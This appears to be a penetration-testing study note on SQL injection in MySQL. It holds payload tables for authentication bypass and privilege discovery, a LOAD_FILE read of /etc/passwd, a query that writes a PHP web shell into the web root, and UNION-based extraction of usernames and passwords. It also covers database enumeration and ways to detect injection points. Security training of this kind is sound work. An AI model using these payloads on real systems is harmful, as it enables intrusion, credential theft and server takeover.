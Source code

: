 ## MySQL
### syntax cheatsheets 
- https://gist.github.com/bradtraversy/c831baaad44343cc945e76c2e30927b3
- https://devhints.io/mysql

### injection cheatsheets
- https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet 


## SQL Injection
| **Payload**   | **Description**   |
| --------------|-------------------|
| **Auth Bypass** |
| `admin' or '1'='1` | Basic Auth Bypass |
| `admin')-- -` | Basic Auth Bypass With comments |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |
| **Privileges** |
| `cn' UNION SELECT 1, user(), 3, 4-- -` | Find current user |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if user has admin privileges |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -` | Find if all user privileges |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |
| **File Injection** |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |



## How to detect SQL injection vulnerabilities
- Submitting the single quote character `'` and looking for errors or other anomalies
- Submitting some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and looking for systematic differences in the resulting application responses.
- Submitting Boolean conditions such as `OR 1=1` and `OR 1=2`, and looking for differences in the application's responses.
- Submitting payloads designed to trigger time delays when executed within a SQL query, and looking for differences in the time taken to respond.
- Submitting OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitoring for any resulting interactions.
- [detection list](https://github.com/kiro6/penetration-testing-notes/blob/main/web%20pentest/Sql%20Injection/detect_prefixes.txt)

## sqli types source [sqli module htb academy](https://academy.hackthebox.com/module/details/33) 
![types_of_sqli](https://github.com/kiro6/penetration-testing-notes/assets/57776872/494a904c-156d-4d61-a25a-f94f7be0c650)

## Database Enumeration
```mysql
#Version
SELECT @@version   

# Current User
SELECT user();
SELECT system_user();

# List Users
SELECT user FROM mysql.user;    => need priv

# List Password Hashes
SELECT host, user, password FROM mysql.user;    => priv

# Current Database
SELECT database()
```

- information_schema.schemata => This table contains information about all the schemas (databases) present in the MySQL server
```mysql
SELECT schema_name, default_character_set_name
FROM information_schema.schemata;
```
- information_schema.tables => This table contains information about all the tables in all the schemas (databases) of the MySQL server
```mysql
SELECT table_schema, table_name, table_type
FROM information_schema.tables;
```
- information_schema.columns => This table contains information about all the columns within all the tables in all the schemas (databases) of the MySQL server
```mysql
SELECT table_schema, table_name, column_name, data_type
FROM information_schema.columns;
```

```mysql
# List Databases
SELECT schema_name FROM information_schema.schemata; 

# list all tables
SELECT table_name  FROM information_schema.tables;
SELECT table_name  FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema' ;

# list all tables in specfic databse (ex:secret)
SELECT table_name  FROM information_schema.tables WHERE table_schema = 'secret' ;

# Find Tables From Column Name (ex:username)
SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = 'username';

# List all Columns 
SELECT table_schema, table_name, column_name FROM information_schema.columns ; 
SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'

# List all Columns in specfic databse (ex:secret)
SELECT  table_name, column_name FROM information_schema.columns WHERE table_schema = 'secret'

# List all Columns in specfic table (ex:users)
SELECT table_schema, column_name FROM information_schema.columns WHERE table_name = 'users' 


```

## UNION BASED
### Determining the number of columns
```
1' ORDER BY 3--+	#True
1' ORDER BY 4--+	#False => Query is only using 3 columns OR ERROR

1' GROUP BY 3--+	#True
1' GROUP BY 4--+	#False => Query is only using 3 columns OR ERROR

' UNION SELECT NULL,NULL,NULL--       #False OR ERROR
' UNION SELECT NULL,NULL,NULL,NULL--  #True Query is only using 4 columns
```
- note the unioned data types in each column must be compatible between the original

### Finding columns with a useful data type
if unioned data type is the same as orginal the the application's response will contain some additional content including the injected string value
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
### Retrieve Interesting Data
```mysql
# retrive data
' UNION SELECT username, password FROM users--

/*retrive data in single column*/ 
' UNION SELECT CONCAT(username,"~",password) FROM users--
```

